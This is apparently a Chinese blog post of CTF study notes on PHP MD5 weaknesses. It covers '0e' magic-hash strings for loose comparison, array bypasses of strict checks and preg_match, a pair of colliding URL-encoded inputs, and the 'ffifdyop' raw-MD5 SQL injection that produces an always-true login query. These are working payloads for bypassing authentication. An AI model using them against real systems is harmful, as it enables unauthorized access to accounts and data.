 ```yaml
---
layout: post
title: MD5知识点
categories: [web,md5]
---
```


# md5总结

> 弱类型比较产生的漏洞
强类型比较产生的漏洞
MD5碰撞
构造攻击语句

***

## 弱比较

> `v1!=v2,md5(v1)==md5(v2)`

> 以0e开头会被php判定为0

```php
var_dump('1' == 1); //true
var_dump('1a' == 1);  //true
var_dump('1a1' == 1);  //true
var_dump('a123' == 0);  //true
var_dump('1aa' == 0);  //false
```
>让一个数MD5加密后还是和加密前相等，这也就在网上找到了这个的数`0e215962017`

### 0e大法

> |原字符串|0e开头的md5|
> |--|--|
> |QNKCDZO|0e830400451993494058024219903391|
> |240610708|0e462097431906509019562988736854|
> |s878926199a|0e545993274517709034328855841020|
> |s155964671a|0e342768416822451524974117254469|
> |s214587387a|0e848240448830537924465865611904|
> |s214587387a|0e848240448830537924465865611904|
> |s878926199a|0e545993274517709034328855841020|
> |s1091221200a|0e940624217856561557816327384675|
> |s1885207154a|0e509367213418206700842008763514|
> |s1502113478a|0e861580163291561247404381396064|

## 强比较

```
md5($v1)===md5($v2)
数组绕过：A[]=a&B[]=b
```
### 数组绕过
```php
isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a']
```
>因为这里有preg_match那么就可以用数组进行绕过，即a[]=0,用post的方法传上去

### MD5强碰撞  
```php
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) 

a = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

``` 


***

## MD5构造攻击语句

### 构造sql语句

```
构造or语句绕过：
md5(ffifdyop,true)='or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c
md5(129581926211651571912466741651878684928,true)=\x06\xdaT0D\x9f\x8fo#\xdf\xc1’or’8
```

```sql
select * from 'admin' where password=md5($pass,true)
ffifdyop
这个点的原理是 ffifdyop 这个字符串被 md5 哈希了之后  
会变成 276f722736c95d99e921722cf9ed621c (对应ascii字符串'or'6É]™é!r,ùíb)，  
这个字符串前几位刚好是 ‘ or ‘6， 而 Mysql 刚好又会吧 hex 转成 ascii 解释，  
因此拼接之后的形式是select * from ‘admin’ where password=’’ or ‘6xxxxx’。  
等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数
```
